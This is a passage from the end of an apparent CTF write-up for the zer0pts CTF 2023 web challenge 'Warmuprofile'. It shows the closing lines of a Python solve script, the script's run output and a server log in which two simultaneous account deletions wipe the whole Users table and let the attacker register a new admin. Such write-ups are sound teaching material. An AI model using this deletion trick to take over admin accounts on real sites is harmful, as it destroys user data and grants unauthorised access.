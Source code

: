 ```python
        exit()

    soup = BeautifulSoup(flagResponse, 'html.parser')
    flag = soup.code.get_text()
    print(f'[+] Flag: {flag}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/zer0pts-CTF-2023/web/Warmuprofile)-[2023.07.16|13:56:37(HKT)]
└> python3 solve.py
[*] Registering new account "foo" in session 1
[*] Logging in to new account "foo" in session 1
[*] Logging in to new account "foo" in session 2
[*] Deleting new account "foo" in session 1
[*] Deleting new account "foo" in session 2
[*] Overwriting old admin user in session 1
[*] Getting the flag in session 1
[+] Flag: nek0pts{FAKE_FLAG}
```

**Server log:**
```shell
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo';
app_1  | Executing (default): INSERT INTO `Users` (`id`,`username`,`password`,`profile`,`createdAt`,`updatedAt`) VALUES (NULL,$1,$2,$3,$4,$5);
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo';
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo' AND `User`.`password` = 'bar';
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo';
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo' AND `User`.`password` = 'bar';
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo';
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo';
app_1  | Executing (default): DELETE FROM `Users` WHERE `id` = 21 AND `username` = 'foo' AND `password` = 'bar' AND `profile` = 'foobar' AND `createdAt` = '2023-07-16 05:56:37.598 +00:00' AND `updatedAt` = '2023-07-16 05:56:37.598 +00:00'
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo';
app_1  | Executing (default): DELETE FROM `Users`
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'admin';
app_1  | Executing (default): INSERT INTO `Users` (`id`,`username`,`password`,`profile`,`createdAt`,`updatedAt`) VALUES (NULL,$1,$2,$3,$4,$5);
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'admin';
```

**As you can see, table `Users` is deleted, and our new `admin` user is inserted!!**
